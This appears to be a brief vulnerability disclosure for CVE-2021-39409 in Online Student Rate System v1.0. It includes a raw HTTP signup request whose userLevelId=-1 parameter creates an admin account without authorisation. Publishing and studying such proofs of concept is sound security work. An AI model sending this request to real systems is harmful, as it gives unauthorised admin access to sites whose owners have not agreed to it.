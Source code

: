 # CVE-2021-39409
Admin account registration is possible in Online Student Rate System v1.0, allowing a malicious actor to create an admin account and access the admin panel.

## Vulnerability
```
POST /ajax.php?action=signup HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 105
Origin: http://localhost
Connection: close
Referer: http://localhost

username=testaccount&passsword=098f6bcd4621d373cade4e832627b4f6&userLevelId=-1&email=example@example.com
```

